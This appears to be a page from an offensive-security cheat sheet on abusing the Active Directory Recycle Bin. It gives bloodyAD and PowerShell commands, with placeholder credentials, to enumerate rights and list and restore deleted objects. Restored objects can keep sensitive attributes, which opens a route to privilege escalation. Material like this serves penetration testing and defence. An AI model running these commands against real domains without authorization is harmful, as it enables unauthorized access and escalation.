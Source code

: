 # Active Directory - Recycle Bin

## Details

* Deleted objects have a default retention time of 180 days
* Recycle Bin path: `CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=example,DC=com`

Enable Active Directory Recycle Bin in PowerShell

```ps1
Enable-ADOptionalFeature -Identity 'CN=Recycle Bin Feature,CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=contoso,DC=com' -Scope ForestOrConfigurationSet -Target 'contoso.com'
```

## Deleted Objects

**Requirements**:

* `LIST_CHILD` right on the Deleted Objects container
* OID `1.2.840.113556.1.4.2064`: shows deleted, tombstoned, and recycled

**Exploitation**:

* List rights

    ```ps1
    bloodyAD -u user -d domain -p 'Password123!' --host 10.10.10.10 get search -c 1.2.840.113556.1.4.2064 --resolve-sd --attr ntsecuritydescriptor --base 'CN=Deleted Objects,DC=domain,DC=local' --filter "(objectClass=container)"
    ```

* Check all rights from the requirements

    ```ps1
    bloodyAD --host 10.10.10.10 -d domain -u user -p 'Password123!' get writable --include-del
    ```

* List deleted objects with bloodyAD

    ```ps1
    bloodyAD -u user -d domain -p 'Password123!' --host 10.10.10.10 get search -c 1.2.840.113556.1.4.2064 --filter '(isDeleted=TRUE)' --attr name
    ```

* List deleted objects with PowerShell

    ```ps1
    Get-ADObject -Filter 'Name -Like "*User*"' -IncludeDeletedObjects 
    ```

## Restore Objects

**Requirements**:

* `Restore Tombstoned` right on the domain object
* `Generic Write` right on the deleted object
* `Create Child` right on the OU used for restoration

By default, only Domain Admins are able to list and restore deleted objects.

On restoration some objects retains attributes:

* Deleted objects retain all their attributes (including sensitive ones)
* Tombstoned objects retain most important attributes

**Exploitation**:

* Check restore rights

    ```ps1
    bloodyAD --host 10.10.10.10 -d domain -u user -p 'Password123!' get object 'DC=domain,DC=local' --attr ntsecuritydescriptor --resolve-sd                   
    
    bloodyAD -u user -d domain -p 'Password123!' --host 10.10.10.10 get search -c 1.2.840.113556.1.4.2064 --filter '(&(isDeleted=TRUE)(sAMAccountName=deleted-computer$))' --attr ntsecuritydescriptor --resolve-sd

    bloodyAD --host 10.10.10.10 -d domain -u user -p 'Password123!' get object 'CN=Users,DC=domain,DC=local' --attr ntsecuritydescriptor --resolve-sd
    ```

* Restore the object using the sAMAccountName or objectSID

    ```ps1
    bloodyAD -u user -d domain -p 'Password123!' --host 10.10.10.10 set restore 'S-1-5-21-1394970401-3214794726-2504819329-1104'
    ```

## References

* [Have You Looked in the Trash? Unearthing Privilege Escalations from the Active Directory Recycle Bin - @CravateRouge - June 25, 2025](https://cravaterouge.com/articles/ad-bin/)

